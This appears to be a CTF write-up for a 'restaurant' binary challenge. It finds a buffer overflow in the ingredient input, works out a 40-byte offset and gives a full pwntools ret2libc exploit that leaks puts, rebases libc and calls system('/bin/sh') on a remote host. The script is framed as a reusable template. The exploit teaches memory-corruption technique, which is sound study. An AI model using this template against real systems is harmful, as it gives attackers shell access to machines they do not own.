





- 
- Obviously, the buffer overflow is in `1. Fill my dish` -> ingredients:
    -  (the read func)
- 
- Straight up think that we want to overflow the buffer and point to libc -> system -> binsh, but how do we get libc address? Via the vulnerable puts function! Let's first find the offset to RIP:
- 
- 
- 36+4 = 40, offset is 40 (because RSP is pointing to stack, and then kaaa will enter RIP)
- lets use this wonderful ret2libc template:
```python
#!/usr/bin/env python3
from pwn import *

# ═══ CHANGE THESE PER CHALLENGE — the body below never changes ═════════
BINARY, LIBC = './restaurant', './libc.so.6'
HOST, PORT   = '154.57.164.82', 31426
OFFSET   = 40            # bytes from start of input to the saved return address
PROMPT   = b'> '         # text printed right before it reads your input (b'' if none)
TRIGGER  = b'1'          # what you send to reach the overflow (b'' if no menu)
LEAK_END = b'Welcome'    # any text printed AFTER the leak (tells us where to stop reading)
LEAK_FN  = 'puts'        # libc function you leak; puts is easiest (it prints the address)
# ══════════════════════════════════════════════════════════════════════

elf  = context.binary = ELF(BINARY, checksec=False)
libc = ELF(LIBC, checksec=False)
io   = remote(HOST, PORT)

rop     = ROP(elf)
POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0]   # finds the gadget [pop rdi, ret]'s address ([0])
RET     = rop.find_gadget(['ret'])[0]              # does nothing; fixes stack alignment

# ── Stage 1: print a real libc address, then loop back to main ────────
io.sendlineafter(PROMPT, TRIGGER)
io.sendline(
    b'A' * OFFSET
    + p64(POP_RDI) + p64(elf.got[LEAK_FN])   # arg  = GOT entry = its live address
    + p64(elf.plt[LEAK_FN])                  # call = puts(that address) -> prints it
    + p64(elf.sym['main'])                   # return to main for a 2nd overflow
)

# grab the 6-byte address out of the output (libc addresses end in 0x7f)
data = io.recvuntil(LEAK_END)
leak = next(u64(data[i:i+6].ljust(8, b'\x00'))
            for i in range(len(data) - 5) if data[i+5] == 0x7f)
libc.address = leak - libc.sym[LEAK_FN]      # this rebases every libc symbol for us
log.success(f'libc base @ {libc.address:#x}')

# ── Stage 2: call system("/bin/sh") ──────────────────────────────────
io.sendlineafter(PROMPT, TRIGGER)
io.sendline(
    b'A' * OFFSET
    + p64(RET)                                          # alignment
    + p64(POP_RDI) + p64(next(libc.search(b'/bin/sh\x00')))
    + p64(libc.sym['system'])
)
io.interactive()
```

